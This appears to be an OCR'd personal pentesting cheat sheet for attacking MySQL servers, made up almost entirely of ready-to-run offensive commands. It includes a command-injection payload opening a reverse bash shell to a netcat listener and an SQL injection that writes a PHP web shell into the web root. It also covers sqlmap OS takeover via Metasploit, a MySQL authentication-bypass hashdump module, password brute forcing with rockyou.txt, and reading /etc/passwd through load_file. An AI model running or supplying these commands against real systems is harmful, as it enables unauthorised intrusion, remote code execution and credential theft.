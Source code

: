 

	nc -n -v -l -p 2222

	test; /bin/bash -i > /dev/tcp/[local]/2222 0<&1 2>&1; echo hello

 

SQL injection

	" union select "<?php if (isset($_REQUEST['cmd'])){echo '<pre>; system($_REQUEST['cmd']); echo '</pre>'; } ?><form action=<?php echo basename($_SERVER['PHP_SELF'])?>> <input type=text name=cmd size=20> <input type=submit></form>","", "","","","" into outfile "/var/www/html/filename.php" #


	sqlmap -u <utL> --data="id=1&submit=submit" --cookie="<cookie value>" --dbs	
	sqlmap -u <utL> --data="id=1&submit=submit" --cookie="<cookie value>" --msf-path=/usr/share/metasploit-framework/ --os-pwn --tmp-path="C:\temp"	

nmap -sS -A -sV -p3306 192.168.0.0


MySQL 	5.1.x before 5.1.63, 
		5.5.x before 5.5.24, 
		5.6.x before 5.6.6
MariaDB 	5.1.x before 5.1.62, 
			5.2.x before 5.2.12, 
			5.3.x before 5.3.6,
			5.5.x before 5.5.23, 

	for i in `seq 1 1000`; do
	mysql -u root --password=bad -h 192.168.0.0
	done

MySQL versions before or equal to 5.1.61 (on some platforms)
MySQL versions before or equal to 5.5.24 (on some platforms)

	use auxiliary/scanner/mysql/mysql_authbypass_hashdump
	set RHOSTS 192.168.178.43
	set USERNAME root
	run

MYSQL brute force
	use auxiliary/scanner/mysql/mysql_login
	/usr/share/wordlists
	set THREADS 1000
	set RHOSTS 192.168.179.142
	set PASS_FILE /usr/share/wordlists/rockyou.txt
	set USERNAME root
	set STOP_ON_SUCCESS true
	set VERBOSE false
	set BLANK_PASSWORDS true
	run

MYSQL read file
	use auxiliary/admin/mysql/mysql_sql
	set USERNAME root
	set PASSWORD ”
	set RHOST 192.168.179.142
	set RPORT 3306
	set SQL select load_file(\’/etc/passwd\’)
